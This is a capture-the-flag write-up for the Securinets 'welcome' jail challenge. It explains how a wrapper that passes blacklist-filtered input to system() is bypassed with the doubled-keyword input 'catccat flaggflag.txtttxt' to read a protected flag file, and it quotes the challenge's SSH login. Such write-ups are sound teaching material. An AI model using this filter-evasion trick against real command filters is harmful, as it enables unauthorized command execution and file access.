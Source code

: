 # **welcome**

#### tag : pwnable, jail

-----------------------------------------------

#### Description

>Unlike other CTFs we build a custom welcome for u \o/
>
>Your goal is to execute welcome binary ssh welcome@51.254.114.246
>
>password : bc09c4a0a957b3c6d8adbb47ab0419f7
>
>Author : Anis_Boss

-----------------------------------------------

#### Solution

After entered into ssh, there are two executable files, two source code and flag. `welcome.c` is not readable and `welcome` is not executable by permission. I can access only `wrapper` and read `wrapper.c`. Here is [wrapper.c](./wrapper.c).

```
$ ls -l
total 40
-r-------- 1 welcome-cracked welcome-cracked    76 Mar 23 20:23 flag.txt
-r-------- 1 welcome-cracked welcome          8712 Mar 23 19:09 welcome
-rw-r----- 1 root            root              175 Mar 23 12:27 welcome.c
-r-s--x--- 1 welcome-cracked welcome         13088 Mar 23 20:13 wrapper
-rw-r--r-- 1 root            root             1741 Mar 23 20:13 wrapper.c

$ whoami
welcome
```

`wrapper` is simple program that filtered by blacklist keyword input will be executed by `system()`. It little bit like rbash but it is very poor filtering. Because it just one keyword in blacklist is filtered only one time. So, if I put `ban-keyword ban-keyword`, then `ban-keyword` will be result of filtered string!

There is routine for one time `search()` which is filtering function.

```c
for (int i=0;i<sizeof(blacklist)/sizeof(blacklist[0]);i++)
{
    index = search(str, blacklist[i]);

    if (index !=  - 1)
    {
        delete_word(str, blacklist[i], index);
    }

}
```

But in `delete_word()`, byte of `last filtered-word-byte + 1` is deleted together. So I put dummy byte to each filtered keyword to make complete query. `cat[X]cat flag[X]flag.txt[X]txt` will be `cat flag.txt` in this case.

```
$ ./wrapper
Welcome to Securinets Quals CTF o/
Enter string:
catccat flaggflag.txtttxt   
securinets{who_needs_exec_flag_when_you_have_linker_reloaded_last_time!!!?}
```
**securinets{who_needs_exec_flag_when_you_have_linker_reloaded_last_time!!!?}**

